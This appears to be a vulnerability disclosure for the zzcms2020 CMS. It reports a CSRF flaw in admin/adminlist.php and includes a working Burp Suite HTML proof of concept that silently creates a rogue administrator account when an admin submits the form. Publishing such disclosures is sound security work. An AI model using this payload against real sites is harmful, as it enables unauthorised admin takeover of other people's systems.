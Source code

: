 
* version: zzcms2020
* source: http://www.zzcms.net/about/6.htm
* issue: csrf

## Position

in `zzcms2020/admin/adminlist.php line 129`：



The `function add()` dosen't check the  Referer header.

![zzcms2020_csrf_1](https://github.com/779789571/zzcms/blob/main/zzcms2020_csrf_1.png)



## PoC
generate a csrf Poc by burpsuite.

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://zzcms.com/admin/adminlist.php?do=add" method="POST">
      <input type="hidden" name="groupid" value="1" />
      <input type="hidden" name="admins" value="admin1234" />
      <input type="hidden" name="passs" value="admin123" />
      <input type="hidden" name="passs2" value="admin123" />
      <input type="hidden" name="Submit" value="æ&#143;&#144;äº&#164;" />
      <input type="hidden" name="action" value="add" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```
if the admin click the button,the attack will trigger and add a admin account named admin1234.

![zzcms2020_csrf_2](https://github.com/779789571/zzcms/blob/main/zzcms2020_csrf_5.png)
![zzcms2020_csrf_3](https://github.com/779789571/zzcms/blob/main/zzcms2020_csrf_4.png)
triggered.
![zzcms2020_csrf_4](https://github.com/779789571/zzcms/blob/main/zzcms2020_csrf_2.png)


